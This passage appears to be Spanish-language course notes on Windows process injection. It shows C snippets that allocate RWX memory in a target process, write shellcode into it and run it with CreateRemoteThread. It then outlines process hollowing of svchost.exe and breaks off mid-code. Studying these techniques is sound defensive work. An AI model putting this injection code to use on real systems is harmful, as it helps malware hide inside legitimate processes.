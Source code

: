 ```
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

En el paso 3, deberemos usar la memoria que acabamos de alogar apra escribir la shellcode. "WriteProcessMemory" 

```
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

En el 4 paso, deberemos tener control del proceso y de nuestra código malicioso. PArar ejecutar el shellcode en memoria usaremos "CreateRemoteThread"

```
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

# Expandir el abuso del proceso

Esta técnica ofrece una injección a un código malicioso dentro de un proceso. "holowwing"

1. Crear un process target en un estado suspendido
2. Abrir una imagen maliciosa
3. Un-Map el código legitimo
4. Alojar la memoria con el código malicioso
5. Entrar con el código maliocoso
6. Quitar el target como estado suspendido

![image](https://github.com/user-attachments/assets/5e05fad4-e11e-4c9b-a150-0bd1f492ae09)

```
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
```